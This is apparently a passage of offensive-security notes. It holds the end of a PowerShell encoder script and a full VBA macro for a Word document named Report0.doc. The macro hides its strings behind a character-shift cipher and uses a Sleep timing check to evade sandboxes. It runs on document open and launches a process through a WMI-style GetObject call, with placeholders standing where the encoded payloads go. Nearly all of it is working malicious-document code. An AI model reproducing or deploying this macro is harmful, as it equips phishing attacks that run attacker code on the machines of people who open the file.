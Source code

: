 ```pwsh
    }
}
$output | clip
```

### Macro in Report0.doc

```VB
Private Declare PtrSafe Function Sleep Lib "KERNEL32" (ByVal mili As Long) As Long

Function Pears(Beets)
    Pears = Chr(Beets - 19)
End Function

Function Strawberries(Grapes)
    Strawberries = Left(Grapes, 3)
End Function

Function Almonds(Jelly)
    Almonds = Right(Jelly, Len(Jelly) - 3)
End Function

Function Nuts(Milk)
    Do
    Oatmilk = Oatmilk + Pears(Strawberries(Milk))
    Milk = Almonds(Milk)
    Loop While Len(Milk) > 0
    Nuts = Oatmilk
End Function


Function MyMacro()
    'If ActiveDocument.Name <> Nuts("clipboard3") Then
    '   Exit Function
    'End If

    Dim Apples As String
    Dim Water As String
    Dim t1 As Date
    Dim t2 As Date
    Dim time As Long

    t1 = Now()
    Sleep (3000)
    t2 = Now()
    time = DateDiff("s", t1, t2)

    If time < 3 Then
        Exit Function
    End If
    
    Apples = "clipboard"
    Water = Nuts(Apples)
    GetObject(Nuts("clipboard1")).Get(Nuts("clipboard2")).Create Water, Tea, Coffee, Napkin
End Function

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```